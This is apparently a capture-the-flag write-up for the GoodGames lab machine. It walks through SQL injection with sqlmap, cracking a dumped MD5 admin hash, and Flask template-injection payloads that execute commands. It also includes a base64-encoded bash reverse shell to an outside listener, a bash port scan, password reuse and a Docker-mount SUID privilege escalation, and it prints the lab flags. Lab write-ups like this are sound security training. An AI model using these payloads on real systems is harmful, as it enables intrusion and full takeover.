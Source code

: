 # GoodGames

*Linux* - Shows the importance of sanitizing user inputs to prevent SQLi, using strong hashing algorithms in database structure to prevent the extraction and cracking.

Also highlights the dangers of using 'render_template_string' in a Python web app where user input is reflected, allowing SSTI attacks. 

Privilege escalation involves docker hosts enumeration and shows how having admin privileges in a container and low privilege user on the host machine can be dangerous.

--------------

`nmap` scan only shows one open port:

```sh
nmap -sC -sV -T4 10.10.11.130

PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
```

After some recon on the web, I saw there is a login page, which sends a `POST` request on `/login`, I provide there some email and password, and observe the request on Burp Suite.

The body is:

```http
email=test%40test.com&password=Test1
```

I save this request to a file, and start the `sqlmap` to see if we have a SQLi here, and if yes to get the databases.

```sh
python3 sqlmap.py -r ../../../GoodGames_Login.txt --dbs
```

This turns out to be true, and I got the following databases:

```sh
available databases [2]:
[*] information_schema
[*] main
```

Now, let's get the tables of the database `Main`.

```sh
python3 sqlmap.py -r ../../../GoodGames_Login.txt -D main --tables
```

It has three tables, and one of them is of big importance.

```sh
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
```

Now, let's dump the users.

```sh
python3 sqlmap.py -r ../../../GoodGames_Login.txt -D main -T user --dump
```

This provided the admin user and it's password hash:

```sh
Database: main
Table: user
[1 entry]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+---------------------+--------+----------------------------------+
```

After google searching for this, we saw an `MD5 reverse` for it which shows the password in clear-text `superadministrator`.

Then I use these to login which sends us to the `Admin's Profile`.

There's not much to it, but in the top-right corner, there is a settings icon, which tries to go to `internal-administration.goodgames.htb`, but that can't be found on the browser.

Let's try to add this to our `/etc/hosts` file.

```sh
10.10.11.130 internal-administration.goodgames.htb
```

And now when I try to visit it, it sends us to an `Open-source Flask Dashboard` login page.

Let's try to reuse the credentials to login. It doesn't work. Let's reuse the password, with a common user for admins `admin`.

And this logs us in to the administrator dashboard.

There is an option to change the account details, where we can put our Full Name, which then is reflected.

But, when I change the Name to `{{7*7}}` it changes the name to 49, meaning that we can execute code here, as there is a SSTI vulnerability on Flask.

Now, after searching on internet for SSTI on Flask, I found a PoC:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

And after putting this on the name, it provided us the with the output of the `id` system command.

Now let's find a reverse shell one liner, to put instead of the `id` command.

```sh
sh -i >& /dev/tcp/10.10.14.37/4444 0>&1
```

Encode it to base 64:

```sh
echo 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNy80NDQ0IDA+JjEK
```

Start a listening service:

```sh
nc -nlvp 4444
```

Put this on your name:

```sh
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNy80NDQ0IDA+JjEK${IFS}|base64${IFS}-d|bash').read()}}
```

And I got access to the server, and when I execute the `whoami` command, it shows:

```sh
whoami
root
```

My current directory is `/backend` and on the home directory I got a user `augustus`, inside which there is a file `user.txt`, which when I `cat` gives me `ac0288acc199c113156e111951a5a9b7` the flag.

Also, on this directory the `ls -la` gave something not so usual:

```sh
# cd augustus
# ls -la
total 24
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Mar 19 12:17 user.txt
# 
```

This tells that the owner of this files is not `augustus` but the `id 1000`, meaning that the user's home directory is mounted inside the docker container from the main system.

Also there is no user `augustus` or `1000` in `/etc/passwd`.

We confirm this by:

```sh
mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

By executing `ip a` we see our ip which is `172.19.0.2` meaning that the host should be `172.19.0.1`.

Let's ping it.

```sh
# ping 172.19.0.1
PING 172.19.0.1 (172.19.0.1) 56(84) bytes of data.
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.087 ms
64 bytes from 172.19.0.1: icmp_seq=2 ttl=64 time=0.060 ms
```

This confirms that this is alive.

`nmap` is not installed, so we should scan this for open ports using `bash`.

```sh
for port in {1..1000}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

This gave us two ports that are open:

```sh
22 open
80 open
```

We know that `22 open` means that we have an `ssh` service running in there, so let's try to connect with the user augustus.

It didn't allow us saying `Permission denied` so let's start a script in the /dev/null.

```sh
script /dev/null bash
```

Try to login again, and now it asks for the password, try to reuse it `superadministrator`, and we got access to the system.

```sh
# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ 

```

Now we know that the home directory is mounted in the Docker, where have root permissions.

But, here now we don't have this kind of privilege, as we don't have access to the `/root/` directory.

But we can write files in the host and change their permissions to root from within the container, permissions which will be reflected to the host system as well.

We will use this to make the `bash` of the host with the permissions of the `root` from the docker container, and then send it back to the host, so we will escalate privileges.

```sh
cp /bin/bash .
exit
```

Now we are in the container again, and we see that on the `/home/augustus` we have the `bash` file.

Change the ownership to `root:root` and apply the `SUID` bit, and then ssh back to the host, and check the permissions.

```sh
chown root:root bash
chmod 4755 bash
ssh augustus172.19.0.1
```

```
ls -la
-rwsr-xr-x 1 root     root     1234376 Mar 19 15:41 bash
```

We see that they are reflected, and now execute it to spawn a shell with the UID of the `root`.

```sh
./bash -p
cd /root
ls
root.txt
cat root.txt
d9355960ea1ace359f9b09837fb80cc4
```


